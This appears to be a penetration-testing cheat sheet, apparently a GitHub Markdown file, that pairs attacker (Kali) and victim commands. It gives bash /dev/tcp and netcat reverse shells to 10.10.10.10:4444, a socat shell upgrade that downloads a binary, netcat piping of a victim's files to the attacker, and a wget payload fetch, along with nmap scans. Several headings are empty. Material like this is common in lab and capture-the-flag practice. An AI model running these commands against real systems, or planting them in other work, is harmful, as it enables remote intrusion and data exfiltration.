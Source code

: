 # Useful Commands

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

Kali:   ```nc -lvp 4444 > file.txt```

## Reverse shells

### With bash

Victim  ```bash -i >& /dev/tcp/10.10.10.10/4444 0>&1```

Kali    ```nc -lvp 4444```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.77```

UDP Scan:

```nmap -sU -sV -p- 10.10.10.77```

# Privilege Escalation

# Some Scripts

# References

